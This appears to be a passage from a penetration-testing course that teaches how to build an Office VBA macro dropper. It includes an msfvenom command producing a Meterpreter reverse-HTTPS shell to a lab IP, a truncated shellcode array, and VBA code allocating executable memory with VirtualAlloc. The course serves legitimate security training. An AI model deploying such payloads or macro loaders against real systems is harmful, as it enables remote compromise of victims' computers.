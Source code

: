 ```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
...
Payload size: 575 bytes
Final size of vbapplication file: 1972 bytes
buf = Array(232,130,0,0,0,96,137,229,49,192,100,139,80,48,139,82,12,139,82,20,139,114,40,15,183,74,38,49,255,172,60,97,124,2,44,32,193,207,13,1,199,226,242,82,87,139,82,16,139,74,60,139,76,17,120,227,72,1,209,81,139,89,32,1,211,139,73,24,227,58,73,139,52,139,1,214,49,255,172,193, _
...
104,88,164,83,229,255,213,147,83,83,137,231,87,104,0,32,0,0,83,86,104,18,150,137,226,255,213,133,192,116,207,139,7,1,195,133,192,117,229,88,195,95,232,107,255,255,255,49,57,50,46,49,54,56,46,49,55,54,46,49,52,55,0,187,224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128, _
251,224,117,5,187,71,19,114,111,106,0,83,255,213)
```

> Listing 39 - Generate shellcode in vbapplication format

We'll add this array to our VBA code.

Next, we'll set the arguments for _VirtualAlloc_. The MSDN documentation suggests that we should supply the value "0" as the _lpAddress_, which will leave the memory allocation to the API. For the second argument, _dwSize_, we could hardcode the size of our shellcode based on the output from msfvenom, but it's better to set it dynamically. This way, if we change our payload, we won't have to change this value. To do this, we'll use the _UBound_[3](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_77-3) function to get the size of the array (_buf_) containing the shellcode.

For the third argument, we will use 0x3000, which equates to the allocation type enums of _MEM\_COMMIT_ and _MEM\_RESERVE_.[4](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_77-4) This will make the operating system allocate the desired memory for us and make it available. In VBA, this hex notation will be represented as _\&H3000_.

We'll set the last argument to \&H40 (0x40), indicating that the memory is readable, writable, and executable.

Our complete _VirtualAlloc_ call is shown in Listing 40. Note that the Meterpreter array stored in _buf_ has been truncated for ease of display.

```
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

...

Dim buf As Variant
Dim addr As LongPtr

buf = Array(232, 130, 0, 0, 0, 96, 137...

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
```
